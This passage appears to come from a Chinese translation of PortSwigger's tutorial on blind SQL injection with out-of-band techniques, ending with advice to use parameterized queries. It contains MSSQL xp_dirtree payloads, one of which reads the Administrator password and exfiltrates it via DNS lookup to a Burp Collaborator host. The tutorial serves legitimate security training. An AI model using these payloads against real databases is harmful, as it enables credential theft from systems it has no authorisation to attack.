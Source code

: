 觸發 DNS 查詢的技術特定於所使用的資料庫類型。例如，在 Microsoft SQL Server 上可以使用以下輸入來對指定域名執行 DNS 查找：

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

這會導致資料庫對以下域名執行查找：

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

您可以使用 Burp Collaborator 產生唯一的子域名，並輪詢 Collaborator 伺服器以確認何時發生任何 DNS 查找。

::: tip Lab: [Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

out-of-band 的題目都需要 Burp Suite Professional，來個好心人贊助。
:::

在確認觸發帶外互動的方法後，您就可以使用帶外通道從易受攻擊的應用程式中外洩資料。例如：

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

此輸入會讀取 `Administrator` 使用者的密碼，附加一個唯一的 Collaborator 子域名，並觸發 DNS 查找。此查找讓您可以查看捕獲的密碼：

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

帶外 (OAST) 技術是檢測和利用盲注 SQL 注入的強大方法，因為其成功率很高，且能夠直接在帶外通道中外洩資料。因此，即使在其他盲注利用技術確實有效的情況下，OAST 技術通常也是首選。

::: info Note

有各種觸發帶外互動的方法，不同的技術適用於不同類型的資料庫。更多詳細資訊，請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。
:::

::: tip Lab: [Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

out-of-band again，歡迎贊助～
:::

### 如何防止盲注 SQL 注入攻擊？

儘管尋找和利用盲注 SQL 注入漏洞所需的技術與一般 SQL 注入不同且更加複雜，但防止 SQL 注入所需的措施是相同的。

與一般 SQL 注入一樣，盲注 SQL 注入攻擊可以透過謹慎使用參數化查詢來防止，這確保使用者輸入無法干擾預期 SQL 查詢的結構。

::: info Read more

* [How to prevent SQL injection](https://portswigger.net/web-security/sql-injection#how-to-prevent-sql-injection)
* [Find blind SQL injection vulnerabilities using Burp Suite's web vulnerability scanner](https://portswigger.net/burp/vulnerability-scanner)
:::
